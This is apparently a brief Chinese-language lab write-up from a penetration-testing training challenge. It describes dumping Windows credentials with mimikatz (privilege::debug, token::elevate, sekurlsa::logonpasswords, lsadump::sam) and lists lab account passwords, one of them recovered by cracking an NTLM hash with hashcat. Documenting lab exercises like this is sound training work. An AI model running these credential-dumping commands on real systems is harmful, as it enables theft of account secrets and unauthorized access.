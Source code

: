 使用mimikatz导出密码

知道了一个域用户的账号密码`joe:Flowers1`

在mimikatz中运行`privilege::debug`--`token::elevate`-`sekurlsa::logonpasswords`

![image-20250913112327912](./Challenge%201%20-%20Medtech/image-20250913112327912.png)

![image-20250912211543258](./Challenge%201%20-%20Medtech/image-20250912211543258.png)

joe是个域用户`joe:Flowers1`

运行`lsadump::sam`

`offsec`的`ntlm`用`hashcat`爆破之后密码为`lab`

